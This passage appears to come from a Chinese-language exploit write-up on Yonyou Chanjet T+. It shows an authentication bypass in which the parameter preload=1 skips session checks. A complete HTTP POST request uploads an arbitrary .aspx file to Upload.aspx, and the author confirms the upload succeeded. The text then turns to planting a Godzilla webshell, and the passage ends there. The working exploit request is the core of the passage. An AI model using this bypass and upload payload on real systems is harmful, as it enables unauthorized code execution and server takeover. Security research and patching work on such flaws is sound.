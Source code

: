 把App_global.asax 导入到dnspy 中

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140130.png)

也没有发现什么鉴权的函数之类的。那么再往上找一层 发现他引用了App_Web_global.asax.cs.cdcab7d2 这个。那么把dll文件丢进去

发现一个 Application_PreRequestHandlerExecute 函数。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140132.png)

参数preload 为1 的时候就不经过下方的session 验证了。

进行尝试

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140134.png)

  

    
    
    POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1  
    Host: 192.168.1.77:8080  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
    Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093  
    Connection: close  
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Length: 183  
      
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Disposition: form-data; name="File1";filename="222.aspx"  
    Content-Type: image/jpeg  
      
    1  
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt--  
    

  

发现返回结果不一样了。那么看看images文件中是否有这个文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140135.png)

发现成功上传了

  

## 三、getshell  

实际访问的时候他返回的错误信息:未预编译文件那么使用绕过的方式

用哥斯拉随便生产一个木马文件
